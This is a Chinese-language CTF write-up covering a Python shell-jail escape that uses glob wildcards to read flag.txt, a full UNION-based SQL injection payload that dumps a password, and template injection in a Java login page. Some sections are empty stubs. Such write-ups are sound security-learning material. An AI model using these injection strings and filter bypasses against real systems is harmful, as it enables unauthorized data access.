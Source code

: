 # Jail
### sansomega
```python
#!/usr/local/bin/python3
import subprocess

BANNED = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]'


def shell():
    while True:
        cmd = input('$ ')
        if any(c in BANNED for c in cmd):
            print('Banned characters detected')
            exit(1)

        if len(cmd) >= 20:
            print('Command too long')
            exit(1)

        proc = subprocess.Popen(
            ["/bin/sh", "-c", cmd], stdout=subprocess.PIPE, stderr=subprocess.STDOUT)

        print(proc.stdout.read().decode('utf-8'), end='')

if __name__ == '__main__':
    shell()

```

没有过滤$(),数字,但是过滤了\\没法8进制执行
\* 可以构造出来flag.txt

`/*/*/*64 *` 会解析为/bin/base64 /bin/x86_64  flag.txt

---
base32!!!竟然有这个命令

`/*/*/????32 *.*`

另一个解法,使用diff3

`/*/????3 ./* ./???`

another
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240411222144.png)

### javajail1
```python
BANNED = ['import', 'class', 'Main', '{', '}']
```




# web
### one-shot
流程,new_session生成一个表(随机密码),search来匹配这个表里的字符且只能search一次,guess需要输入密码
```python
    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
```
search的query参数存在sql注入
```bash
' UNION ALL SELECT substr(password, 1, 1) FROM table_id UNION ALL SELECT substr(password, 2, 1) FROM table_id UNION ALL SELECT substr(password, 3, 1) FROM table_id UNION ALL SELECT substr(password, 4, 1) FROM table_id UNION ALL SELECT substr(password, 5, 1) FROM table_id UNION ALL SELECT substr(password, 6, 1) FROM table_id UNION ALL SELECT substr(password, 7, 1) FROM table_id UNION ALL SELECT substr(password, 8, 1) FROM table_id UNION ALL SELECT substr(password, 9, 1) FROM table_id UNION ALL SELECT substr(password, 10, 1) FROM table_id UNION ALL SELECT substr(password, 11, 1) FROM table_id UNION ALL SELECT substr(password, 12, 1) FROM table_id UNION ALL SELECT substr(password, 13, 1) FROM table_id UNION ALL SELECT substr(password, 14, 1) FROM table_id UNION ALL SELECT substr(password, 15, 1) FROM table_id UNION ALL SELECT substr(password, 16, 1) FROM table_id UNION ALL SELECT substr(password, 17, 1) FROM table_id UNION ALL SELECT substr(password, 18, 1) FROM table_id UNION ALL SELECT substr(password, 19, 1) FROM table_id UNION ALL SELECT substr(password, 20, 1) FROM table_id UNION ALL SELECT substr(password, 21, 1) FROM table_id UNION ALL SELECT substr(password, 22, 1) FROM table_id UNION ALL SELECT substr(password, 23, 1) FROM table_id UNION ALL SELECT substr(password, 24, 1) FROM table_id UNION ALL SELECT substr(password, 25, 1) FROM table_id UNION ALL SELECT substr(password, 26, 1) FROM table_id UNION ALL SELECT substr(password, 27, 1) FROM table_id UNION ALL SELECT substr(password, 28, 1) FROM table_id UNION ALL SELECT substr(password, 29, 1) FROM table_id UNION ALL SELECT substr(password, 30, 1) FROM table_id UNION ALL SELECT substr(password, 31, 1) FROM table_id UNION ALL SELECT substr(password, 32, 1) FROM table_id ; --
```
返回所有password

### creative-login-page-challenge
登录/注册功能,登录成功会在cookie里加上name和一段加盐的hash校验

注册时可以用户名可以填入模板,获取字段名
```java
            String tUsername = template(username);

    private String template(String fmtStr) throws Exception {
        StringBuilder sb = new StringBuilder();
        while (fmtStr.contains("{{")) {
            int start = fmtStr.indexOf("{{") + 2;
            int end = fmtStr.indexOf("}}", start);
            if (end == -1) throw new Exception("Invalid Format String");
            sb.append(fmtStr, 0, start - 2);
            Field f = LoginpageApplication.class.getField(fmtStr.substring(start, end));
            if (f.getType().equals(String.class)) {
                sb.append(f.get(this));
            } else {
                throw new Exception("Field not found");
            }

            fmtStr = fmtStr.substring(end + 2);
        }
        // no format strings, no need.
        sb.append(fmtStr);
        return sb.toString();
    }
//给的字段
    private final static String SALT = BCrypt.gensalt();
    // Some fun things to include in your username/password!
    // TODO take from env cause yes
    public String flag = System.getenv("FLAG");
    public String randomNum = Integer.toString((int) (Math.random() * 100));
```
其中flag已被过滤
`            if (tUsername.contains(flag)) return "No flag >:( !";`
,只剩下randomNum可以
~~分析登录接口可知,用户名是否存在都返回Credentials wrong,但是状态码未修改,我们可以据此来获取randomNum的值~~
瞎扯,直接注册71用户不就行了,没办法判断


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-11   21:16